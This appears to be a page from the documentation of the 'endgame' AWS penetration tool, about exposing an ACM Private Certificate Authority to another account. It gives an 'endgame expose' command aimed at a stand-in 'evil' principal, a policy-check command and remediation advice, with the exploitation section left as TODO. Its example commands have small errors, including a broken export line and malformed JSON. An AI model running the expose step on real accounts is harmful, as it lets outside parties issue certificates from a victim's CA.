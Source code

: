 # ACM Private Certificate Authority (PCA)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [References](#references)

## Steps to Reproduce

* ‼️ If you are using the Terraform demo infrastructure, you must take some follow-up steps after provisioning the resources in order to be able to expose the demo resource. This is due to how ACM PCA works. For instructions, see the [Appendix on ACM PCA Activation](../appendices/acm-pca-activation.md)

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export CERTIFICATE_ID=12345678-1234-1234-1234-123456789012

endgame expose --service acm-pca --name $CERTIFICATE_ID
```

* To view the contents of the ACM PCA resource policy, run the following:

```bash
export AWS_REGION=us-east-1
export VICTIM_ACCOUNT_ID=111122223333
export CERTIFICATE_ID=12345678-1234-1234-1234-123456789012
export CERTIFICATE_ARN = arn:aws:acm-pca:$AWS_REGION:$VICTIM_ACCOUNT_ID:certificate-authority/$CERTIFICATE_ID

aws acm-pca list-permissions --certificate-authority-arn $CERTIFICATE_ARN
```

* Observe that the contents of the overly permissive resource-based policy match the example shown below.

## Example

```bash
{
  "Permissions": [
    {
      "Actions": {
        "IssueCertificate",
        "GetCertificate",
        "ListPermissions"
      },
      "CertificateAuthorityArn": "arn:aws:acm:us-east-1:111122223333:certificate/12345678-1234-1234-1234-123456789012",
      "CreatedAt": 1.516130652887E9,
      "Principal": "acm.amazonaws.com",
      "SourceAccount": "111122223333"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that AWS PCA Certificates are only shared with trusted accounts, and that the trusted accounts truly need access to the Certificates.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposing usage of your private CAs**: Tightly control access to the following IAM actions:
  - [acm-pca:GetPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_GetPolicy.html): Retrieves the policy on an ACM Private CA._
  - [acm-pca:PutPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_PutPolicy.html): _Puts a policy on an ACM Private CA._
  - [acm-pca:DeletePolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_DeletePolicy.html): _Deletes the policy for an ACM Private CA._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [Attaching a Resource-based Policy for Cross Account Access in ACM PCA](https://docs.aws.amazon.com/acm-pca/latest/userguide/pca-rbp.html)
* [GetPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_GetPolicy.html)
* [PutPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_PutPolicy.html)
* [DeletePolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_DeletePolicy.html)

